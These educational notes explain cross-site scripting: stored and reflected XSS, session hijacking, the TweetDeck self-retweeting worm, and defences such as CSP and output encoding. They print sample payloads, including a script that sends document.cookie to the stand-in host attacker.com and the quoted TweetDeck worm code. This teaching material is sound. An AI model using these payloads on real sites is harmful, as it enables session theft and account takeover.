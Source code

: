 > [!motivation] The Dangers of Cross-Site Scripting (XSS)
>
> Cross-Site Scripting (XSS) is a prevalent security vulnerability in web applications, where an **attacker injects malicious scripts into web pages viewed by other users**. This type of attack leverages the trust a user has for a particular site, turning benign web pages into vehicles for delivering harmful scripts.

> [!idea] Understanding Stored XSS
>
> Stored Cross-Site Scripting (Stored XSS) occurs when malicious scripts are injected directly into a website's database through user inputs that are not adequately sanitized. These scripts are then delivered to other users' browsers when they access the compromised data.
>
> - **Persistence**: The malicious script persists in the database, affecting multiple users over time.
> - **Scope of Attack**: Can impact any user who accesses the data containing the script.
> - **Mitigation**: Requires stringent input validation and output encoding to prevent and neutralize these attacks.

> [!example] Example of Stored XSS Attack
>
> Consider a user who submits a comment on a blog post with the following malicious JavaScript embedded: `<script>alert('XSS');</script>`. If the comment is stored as-is in the database and then displayed to other users without sanitization, it executes the script in every visitor's browser, potentially leading to wider exploitation.

> [!idea] Exploring Reflected XSS
>
> Reflected Cross-Site Scripting (Reflected XSS) involves injecting a script into a web application that reflects the malicious script back to the user's browser as part of an immediate response. It typically occurs through URL parameters, form inputs, or any other data sent to the server that is then echoed back in the response.
>
> - **Immediate Execution**: The script does not persist in the database but is executed immediately in the user's browser.
> - **Social Engineering**: Often requires tricking a user into clicking a specially crafted link containing the malicious script.
> - **Prevention**: Focuses on validating and encoding user inputs and URL parameters to avoid executing untrusted scripts.

> [!example] Example of Reflected XSS Attack
>
> A user clicks on a link like `http://example.com/search?query=<script>alert('XSS');</script>`. The search term is reflected in the response without sanitization, causing the script to execute in the user's browser. This illustrates how attackers use social engineering to execute their scripts.

> [!consider] Stored vs. Reflected XSS
>
> - **Stored XSS**: Involves malicious scripts that are permanently stored on the server (e.g., in a database) and executed in multiple users' browsers when the stored data is displayed. This type of XSS is particularly harmful as it can affect many users over time. Mitigation includes thorough sanitization of stored data.
>
> - **Reflected XSS**: Occurs when a user's input is immediately returned by web applications without proper sanitization and displayed in the user's browser, executing malicious scripts. This form usually affects the user who sends the input and often requires social engineering to initiate. Preventing this involves real-time sanitization of inputs and outputs.

> [!idea] How XSS Attacks Facilitate Session Hijacking via Cookie Theft
>
> Cross-Site Scripting (XSS) can enable session hijacking by allowing attackers to inject scripts that covertly steal session cookies and send them to a malicious server. This attack bypasses the need for direct user interaction, making it harder to detect.
>
> - **Mechanism**: Attackers leverage XSS vulnerabilities to inject a script that accesses the session cookie and sends it to their server using an AJAX POST request. This approach keeps the user on the original page, maintaining the illusion of security.
> - **Impact**: Once the attacker obtains the session cookie, they can use it to impersonate the victim, accessing their account and sensitive data.
> - **Example**: An attacker injects the following script into a vulnerable web application:
>   ```javascript
>   var xhr = new XMLHttpRequest();
>   xhr.open("POST", "http://attacker.com/steal", true);
>   xhr.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
>   xhr.send("session=" + encodeURIComponent(document.cookie));
>   ```
>   This script creates an XMLHttpRequest to send the session cookie to the attacker's server without disrupting the user's experience, effectively hijacking the session.

> [!example] Real Example: Self-Retweeting Tweet in TweetDeck
>
> The XSS attack that affected TweetDeck used the following JavaScript snippet embedded in a tweet:
>
> ```html
> <script class="xss">$('.xss').parents().eq(1).find('a').eq(1).click();$('[data-action=retweet]').click();alert('XSS in Tweetdeck')</script>♥
> ```
>
> - **Targeting the Script Element**: `$('.xss')` selects the `<script>` element itself using its class name 'xss'.
> - **Navigating the DOM**: `$('.xss').parents().eq(1)` navigates up the DOM to find the parent element of the `<script>` tag. This is typically a container like a `<div>` or `<span>` that contains the tweet.
> - **Finding and Clicking a Link**: `.find('a').eq(1).click();` looks for the second link within this parent container and simulates a click. This step could be designed to interact with other parts of the TweetDeck interface or to trigger additional actions like navigating or opening links.
> - **Triggering the Retweet**: `$('[data-action=retweet]').click();` specifically targets elements (usually buttons) with a `data-action` attribute set to 'retweet' and simulates a click, which causes the tweet to retweet itself.
> - **Alerting the User**: `alert('XSS in Tweetdeck')` then pops up an alert box, providing feedback that the XSS script executed, serving as a proof of concept for the attacker.

> [!consider] Comprehensive Defense Against XSS and Session Hijacking
>
> Protecting web applications from XSS and mitigating the risk of session hijacking requires a multi-layered approach that combines various security measures:
>
> - **Input Validation**: Implement strict input validation mechanisms to sanitize and filter all user-supplied data, removing or escaping potential XSS payloads and malicious scripts.
>
> - **Output Encoding**: Encode user data before rendering it in web pages to ensure that any remaining special characters or scripts are treated as plain text, preventing execution.
>
> - **Use of Secure Frameworks and Libraries**: Leverage frameworks and libraries that provide built-in XSS protection features, such as automatic input sanitization and output encoding.
>
> - **Content Security Policy (CSP)**: Implement a robust Content Security Policy (CSP) that whitelists trusted sources for scripts, styles, images, and other resources. This effectively blocks the execution of any injected scripts, including XSS payloads that could lead to session hijacking.
>
>   Example CSP header:
>
>   ```
>   Content-Security-Policy: default-src 'self'; script-src 'self' https://trusted.com; object-src 'none'; base-uri 'self'; form-action 'self'
>   ```
>
>   This policy allows scripts only from the website's origin and `https://trusted.com`, blocks loading of plugins and other objects, restricts base URLs and form submissions to the same origin, effectively mitigating various types of XSS attacks and session hijacking attempts.
>
> - **Secure Cookie Handling**: Set the `HttpOnly` flag on session cookies to prevent client-side scripts from accessing them, mitigating session hijacking through XSS. Additionally, use the `Secure` flag to ensure cookies are only transmitted over HTTPS connections.
>
> - **Short Session Timeouts**: Implement short session timeouts and require re-authentication after periods of inactivity to minimize the window of opportunity for session hijacking.
>
> - **Session Token Rotation**: Periodically rotate session tokens, especially after sensitive operations like password changes or account updates, to invalidate potential stolen tokens.
>
> - **CSRF Protection**: Implement Cross-Site Request Forgery (CSRF) protection mechanisms to prevent unauthorized state changes, complementing the defense against session hijacking.


> [!example] Preventing XSS
>
> To effectively prevent XSS attacks, user input must be sanitized before it is rendered on the web page. Below are examples of how a specific input is transformed using PHP's sanitization functions.
>
> **Before Sanitization:**
> User input: `<script>alert('XSS');</script>`
>
> **PHP Code Before Sanitization:**
> ```php
> // Displaying user input directly
> echo $_POST['user_input'];
> ```
> This will execute the JavaScript and show an alert if `user_input` is `<script>alert('XSS');</script>`.
>
> **After Sanitization Using `htmlspecialchars`:**
> **PHP Code After Sanitization:**
> ```php
> // Sanitizing user input to prevent XSS
> $safe_input = htmlspecialchars($_POST['user_input'], ENT_QUOTES, 'UTF-8');
> echo $safe_input;
> ```
> With this sanitized input, the output in HTML will be: `&lt;script&gt;alert('XSS');&lt;/script&gt;`, which is rendered as text rather than being executed as JavaScript. This approach prevents the script from running and neutralizes the XSS threat.
>
> By combining these measures, web applications can effectively mitigate XSS vulnerabilities, prevent session hijacking, and enhance the overall security posture against various types of attacks targeting user sessions and sensitive data.

